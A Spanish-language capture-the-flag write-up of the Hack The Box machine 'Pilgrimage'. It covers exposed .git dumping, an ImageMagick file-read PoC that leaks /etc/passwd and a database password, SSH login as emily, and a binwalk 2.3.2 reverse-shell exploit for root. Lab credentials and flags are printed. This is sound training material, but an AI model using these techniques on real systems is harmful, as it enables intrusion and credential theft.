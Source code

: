 ```yaml
---
title: Pilgrimage HTB
date: 2023-07-11
tier: easy
author: naibu3
---
```

#linux #web #imagemagick #git

## Reconocimiento

Como siempre comenzamos lanzando [[nmap]], para tratar de buscar puertos abiertos:

```bash
sudo nmap -sS -p- --min-rate 5000 -n -Pn 10.10.11.219 -vvv
```
```nmap
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

```bash
sudo nmap -sCV -p22,80 -n 10.10.11.219 -vvv
```
```nmap
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://pilgrimage.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Si accedemos a la ip via web, nos encontraremos con que se nos redirige a `pilgrimage.htb`. Lo añadimos al `/etc/hosts` y ya podremos ver una *subida de archivos*, una pestaña de *login* y otra de *registro*.

Con [[whatweb]] podemos ver que tecnologías utiliza la web:

```whatweb
http://pilgrimage.htb [200 OK] Bootstrap, Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0], IP[10.10.11.219], JQuery, Script, Title[Pilgrimage - Shrink Your Images], nginx[1.18.0]
```

Aunque no vemos nada.

A continuación, podemos tratar de buscar recursos, comenzamos con [[dirb]]:

```dirb
---- Scanning URL: http://pilgrimage.htb/.git/ ----
+ http://pilgrimage.htb/.git/config (CODE:200|SIZE:92)
==> DIRECTORY: http://pilgrimage.htb/.git/hooks/
+ http://pilgrimage.htb/.git/index (CODE:200|SIZE:3768)
==> DIRECTORY: http://pilgrimage.htb/.git/info/
==> DIRECTORY: http://pilgrimage.htb/.git/logs/
==> DIRECTORY: http://pilgrimage.htb/.git/objects/
```

Como va un poco lento vamos a continuar con [[gobuster]], tanto en **hooks**, como en **info** y **logs** no vemos nada interesante, así que probamos en **objects**:

```bash
sudo gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://pilgrimage.htb/.git/objects -t 20
```
```gobuster
/.htpasswd (Status: 403) [Size: 153]
/.hta (Status: 403) [Size: 153]
/.htaccess (Status: 403) [Size: 153]
/06 (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/06/]
/11 (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/11/]
/23 (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/23/]
/50 (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/50/]
/96(Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/96/]
/ca  (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/ca/]
/cd (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/cd/]
/dc (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/dc/]
/fa (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/fa/]
/fb (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/fb/]
/info (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/info/]
/pack (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/pack/]
```

Como hay muchos recursos, lo mejor es utilizar una herramienta como [[git-dumper]] para volcarnos todo el repositorio en local:

```bash
git-dumper -j4 http://pilgrimage.htb/.git/ ./git
```

Si entramos y echamos un vistazo a los archivos, en la raíz encontramos [[ImageMagick]], si lo ejecutamos con el parámetro `--version`, podremos listar la versión:

```bash
./magick --version
```
```magick
Version: ImageMagick 7.1.0-49 beta[...]
```

Si hacemos una búsqueda en internet, encontraremos una vuln llamada [Arbitrary File Read](https://www.exploit-db.com/exploits/51261).

## Explotación

Ejecutamos el comando de la PoC:

```bash
cargo run "/etc/passwd"
```

Nos dará como resultado una imagen que debemos subir a la web para que se procese. Una vez acabe, nos descargamos ola imagen con [[wget]] y ejecutamos el siguiente comando de [[ImageMagick]]:

```bash
identify -verbose 64ad72b7d4c8b.png
```
```identify
Raw profile type: 
    1437
726f6f743a783a303a303a726f6f743a2f726f6f743a2f62696e2f626173680a6461656d
6f6e3a783a313a313a6461656d6f6e3a2f7573722f7362696e3a2f7573722f7362696e2f
6e6f6c6f67696e0a62696e3a783a323a323a62696e3a2f62696e3a2f7573722f7362696e
2f6e6f6c6f67696e0a7379733a783a333a333a7379733a2f6465763a2f7573722f736269
6e2f6e6f6c6f67696e0a73796e633a783a343a36353533343a73796e633a2f62696e3a2f
62696e2f73796e630a67616d65733a783a353a36303a67616d65733a2f7573722f67616d
65733a2f7573722f7362696e2f6e6f6c6f67696e0a6d616e3a783a363a31323a6d616e3a
2f7661722f63616368652f6d616e3a2f7573722f7362696e2f6e6f6c6f67696e0a6c703a
783a373a373a6c703a2f7661722f73706f6f6c2f6c70643a2f7573722f7362696e2f6e6f
6c6f67696e0a6d61696c3a783a383a383a6d61696c3a2f7661722f6d61696c3a2f757372
2f7362696e2f6e6f6c6f67696e0a6e6577733a783a393a393a6e6577733a2f7661722f73
706f6f6c2f6e6577733a2f7573722f7362696e2f6e6f6c6f67696e0a757563703a783a31
303a31303a757563703a2f7661722f73706f6f6c2f757563703a2f7573722f7362696e2f
6e6f6c6f67696e0a70726f78793a783a31333a31333a70726f78793a2f62696e3a2f7573
722f7362696e2f6e6f6c6f67696e0a7777772d646174613a783a33333a33333a7777772d
646174613a2f7661722f7777773a2f7573722f7362696e2f6e6f6c6f67696e0a6261636b
75703a783a33343a33343a6261636b75703a2f7661722f6261636b7570733a2f7573722f
7362696e2f6e6f6c6f67696e0a6c6973743a783a33383a33383a4d61696c696e67204c69
7374204d616e616765723a2f7661722f6c6973743a2f7573722f7362696e2f6e6f6c6f67
696e0a6972633a783a33393a33393a697263643a2f72756e2f697263643a2f7573722f73
62696e2f6e6f6c6f67696e0a676e6174733a783a34313a34313a476e617473204275672d
5265706f7274696e672053797374656d202861646d696e293a2f7661722f6c69622f676e
6174733a2f7573722f7362696e2f6e6f6c6f67696e0a6e6f626f64793a783a3635353334
3a36353533343a6e6f626f64793a2f6e6f6e6578697374656e743a2f7573722f7362696e
2f6e6f6c6f67696e0a5f6170743a783a3130303a36353533343a3a2f6e6f6e6578697374
656e743a2f7573722f7362696e2f6e6f6c6f67696e0a73797374656d642d6e6574776f72
6b3a783a3130313a3130323a73797374656d64204e6574776f726b204d616e6167656d65
6e742c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f6c6f67696e
0a73797374656d642d7265736f6c76653a783a3130323a3130333a73797374656d642052
65736f6c7665722c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f
6c6f67696e0a6d6573736167656275733a783a3130333a3130393a3a2f6e6f6e65786973
74656e743a2f7573722f7362696e2f6e6f6c6f67696e0a73797374656d642d74696d6573
796e633a783a3130343a3131303a73797374656d642054696d652053796e6368726f6e69
7a6174696f6e2c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f6c
6f67696e0a656d696c793a783a313030303a313030303a656d696c792c2c2c3a2f686f6d
652f656d696c793a2f62696e2f626173680a73797374656d642d636f726564756d703a78
3a3939393a3939393a73797374656d6420436f72652044756d7065723a2f3a2f7573722f
7362696e2f6e6f6c6f67696e0a737368643a783a3130353a36353533343a3a2f72756e2f
737368643a2f7573722f7362696e2f6e6f6c6f67696e0a5f6c617572656c3a783a393938
3a3939383a3a2f7661722f6c6f672f6c617572656c3a2f62696e2f66616c73650a
```

Si lo analizamos en [cyberchef]():

```xml
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

Vemos que efectivamente podemos listar el `/etc/hosts`. Ahora tenemos los posibles usuarios **root** y **emily**. Además revisando el archivo `register.php` del repo, podemos ver que existe una BD (`sqlite:/var/db/pilgrimage`). Por tanto podemos tratar de listar dicho archivo:

```bash
cargo run "/var/db/pilgrimage"
```

Si repetimos el proceso, encontramos la cadena `-emilyabigchonkyboi123`.

Si probamos a conectarnos por ssh con las credenciales `emily:abigchonkyboi123`, son válidas, por lo que ya tenemos la **flag del usuario**!

```flag
eaa990cb07004e074f0fcbf73dde742f
```

## Escalada de privilegios

Una vez dentro debemos aplicar un [[Reconocimiento del equipo]], por lo que lanzamos [[pspy]]. Entre otros procesos, encontramos una tarea que ejecuta `/usr/sbin/malwarescan.sh` periodicamente:

```bash
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
	filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
	binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
		if [[ "$binout" == *"$banned"* ]]; then
			/usr/bin/rm "$filename"
			break
		fi
	done
done
```

Vemos que está utilizando [[binwalk]], si lo ejecutamos vemos que está en la versión `2.3.2`, que resulta ser vulnerable.

Para obtener una shell como root podemos usar el siguiente [exploit](https://www.exploit-db.com/exploits/51249). Una vez ejecutado generará una imagen que contiene una **reverse shell**, la copiamos a `/var/www/pilgrimage.htb/shrunk/`, y nos ponemos en escucha en nuestra máquina local con [[netcat]]. Después lo accedemos con [[wget]] (`http://pilgrimage.htb/shrunk/binwalk_exploit.png`). Y ya deberíamos tener una shell como root en netcat. Si leemos `/root/root.txt` ya tenemos la **flag**!

```flag
99a960fd480eeb9e0915775c49c78db3
```

